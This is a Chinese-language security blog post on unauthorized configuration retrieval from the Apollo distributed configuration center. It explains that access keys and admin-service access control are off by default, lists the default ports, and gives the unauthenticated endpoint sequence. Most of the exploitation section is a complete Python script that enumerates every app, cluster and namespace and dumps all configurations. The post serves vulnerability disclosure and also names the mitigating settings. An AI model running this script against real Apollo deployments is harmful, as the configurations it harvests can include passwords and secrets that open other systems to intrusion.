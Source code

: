 Apollo 配置中心未授权获取配置漏洞利用
----------------------

### 0x00：背景

> Apollo（阿波罗）是携程框架部门研发的分布式配置中心，能够集中化管理应用不同环境、不同集群的配置，配置修改后能够实时推送到应用端，并且具备规范的权限、流程治理等特性，适用于微服务配置管理场景。

- 项目地址: <https://github.com/ctripcorp/apollo>

### 0x01：默认不安全

从 [issues-2099](https://github.com/ctripcorp/apollo/issues/2099) 可以看出，根本不需要通过要鉴权的 apollo-dashboard ，只要通过伪造成客户端，即可未授权获取相应的配置信息。

Apollo 官方的解决方案是：

1.6.0 版本开始增加访问密钥机制，只有经过身份验证的客户端才能访问敏感配置。如果应用开启了访问密钥，客户端需要配置密钥，否则无法获取配置。[但是默认不会开启此项功能](https://github.com/ctripcorp/apollo/pull/2828)。

1.7.1 版本开始可以为 apollo-adminservice 开启访问控制，从而只有合法的 apollo-portal 才能访问对应接口，以增强安全性。类似于增加配置：

```php
admin-service.access.control.enabled = true
admin-service.access.tokens=098f6bcd4621d373xade4e832627b4f6
```

有意思的是，默认 `admin-service.access.control.enabled` 值为 `false`，[也就是默认不会开启此项功能](https://github.com/ctripcorp/apollo/pull/3233)。

### 0x02：环境搭建

使用 <https://github.com/nobodyiam/apollo-build-scripts> 快速搭建好 demo。

- 默认开放的端口情况：

| 端口号 | 服务类型 |
|---|---|
| 8070 | apollo-dashboard |
| 8080 | apollo-configservice |
| 8090 | apollo-adminservice |

- 网站首页

apollo-dashboard

![img](https://shs3.b.qianxin.com/butian_public/ff3523a3709ed11b79c89b285687b0709.jpg)

apollo-configservice

![img](https://shs3.b.qianxin.com/butian_public/f18fc7af237566df829b7add33909e605.jpg)

apollo-adminservice

![img](https://shs3.b.qianxin.com/butian_public/feaf5e744f854ab97dbf25af5208106cd.jpg)

### 0x03：漏洞利用

由于网上没有漏洞细节，所以我下载了 Apollo 源码，分析了下几个服务的相关代码，下面给出一种利用方法。

大致流程就是利用默认可未授权访问的 `apollo-configservice` 和 `apollo-adminservice` 服务，通过调用相关接口获取所有能够获取到的配置信息。

```php
# 1. 获取所有的应用基本信息(包含 appId)
http://test.landgrey.me:8090/apps

# 2. 获取相关 appId 的所有 cluster
http://test.landgrey.me:8090/apps/<appId>/clusters

# 3. 获取相关 appId 的 namespaces
http://test.landgrey.me:8090/apps/<appId>/appnamespaces

# 4. 组合 appId cluster namespaceName 获取配置 configurations
http://test.landgrey.me:8080/configs/<appId>/<cluster>/<namespaceName>
```

python3 利用脚本：

```php
#!/usr/bin/env python3
# coding: utf-8
# Build By LandGrey

import json
import time
import requests
from urllib.parse import urlparse

def get_response(uri):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:60.0) Gecko/20200101 Firefox/60.0",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    }
    return requests.get(uri, headers=headers, timeout=20, allow_redirects=False)

def get_app_ids(uri):
    app_ids = []
    response = get_response("{}/apps".format(uri))
    html = response.text
    if response.status_code == 200:
        for app in json.loads(html):
            app_ids.append(app.get("appId"))
    return app_ids

def get_clusters(uri, app_ids):
    clusters = {}
    for app_id in app_ids:
        clusters[app_id] = []
        response = get_response("{}/apps/{}/clusters".format(uri, app_id))
        html = response.text
        if response.status_code == 200:
            for app in json.loads(html):
                clusters[app_id].append(app.get("name"))
    return clusters

def get_namespaces(uri, app_ids, clusters):
    namespaces = {}
    for app_id in app_ids:
        namespaces[app_id] = []
        for cluster in clusters[app_id]:
            url = "{}/apps/{}/clusters/{}/namespaces".format(uri, app_id, cluster)
            response = get_response(url)
            html = response.text
            if response.status_code == 200:
                for app in json.loads(html):
                    namespaces[app_id].append(app.get("namespaceName"))
    return namespaces

def get_configurations(uri, app_ids, clusters, namespaces):
    configurations = []
    for app_id in app_ids:
        for cluster in clusters[app_id]:
            for namespace in namespaces[app_id]:
                key_name = "{}-{}-{}".format(app_id, cluster, namespace)
                url = "{}/configs/{}/{}/{}".format(uri, app_id, cluster, namespace)
                response = get_response(url)
                code = response.status_code
                html = response.text
                print("[+] get {} configs, status: {}".format(url, code))
                time.sleep(1)
                if code == 200:
                    configurations.append({key_name: json.loads(html)})
    return configurations

if __name__ == "__main__":
    apollo_adminservice = "http://test.landgrey.me:8090"
    apollo_configservice = "http://test.landgrey.me:8080"

    scheme0, netloc0, path0, params0, query0, fragment0 = urlparse(apollo_adminservice)
    host0 = "{}://{}".format(scheme0, netloc0)

    _ids = get_app_ids(host0)
    print("All appIds:")
    print(_ids)

    _clusters = get_clusters(host0, _ids)
    print("\nAll Clusters:")
    print(_clusters)

    _namespaces = get_namespaces(host0, _ids, _clusters)
    print("\nAll Namespaces:")
    print(_namespaces)
    print()

    scheme1, netloc1, path1, params1, query1, fragment1 = urlparse(apollo_configservice)
    host1 = "{}://{}".format(scheme1, netloc1)
    _configurations = get_configurations(host1, _ids, _clusters, _namespaces)
    print("\nresults:\n")
    print(_configurations)
```

![img](https://shs3.b.qianxin.com/butian_public/fa0b9dbd2fc72c1452c499785f3d5d5ab.jpg)

### 参考文章

<https://github.com/ctripcorp/apollo/wiki>

文章首发在自己博客，原文地址为：<https://landgrey.me/blog/20/>